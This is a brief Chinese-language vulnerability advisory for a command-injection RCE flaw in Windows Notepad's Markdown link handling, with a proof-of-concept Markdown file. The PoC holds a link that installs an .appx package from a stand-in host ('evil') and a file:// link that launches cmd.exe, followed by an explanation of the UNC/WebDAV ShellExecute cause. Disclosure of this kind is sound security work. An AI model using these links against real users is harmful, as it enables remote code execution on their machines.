


# Windows 记事本命令注入漏洞（RCE） 严重

## POC
Markdown文件，内容：  

\# install file  
\[poc](ms-appinstaller://?source=https://evil/xxx.appx)  
\# run executable file  
\[poc](file://C:/windows/system32/cmd.exe)  

  

点击连接即可执行cmd.exe，攻击者可替换为任意可执行文件或脚本，达到远程代码执行的目的。

  

## 漏洞原理

应用未能正确处理命令中的特殊字符（CWE-77），导致攻击者可通过构造恶意文本文件，诱使用户在联网状态下打开文件，从而触发远程代码执行（RCE）。  
记事本在解析 Markdown 中的 file:/// 链接时，未对 URL 中的特殊字符（如 @ 端口、UNC 路径）进行充分过滤，导致攻击者可嵌入指向远程 WebDAV/SMB 共享的恶意路径。当用户点击链接且系统已关联可执行扩展名（如 .py、.jar）时，记事本将直接调用 ShellExecute 打开该远程文件，造成任意代码执行。

## 影响范围
Microsoft Windows 记事本 11.0.0 至 11.2510 之前的版本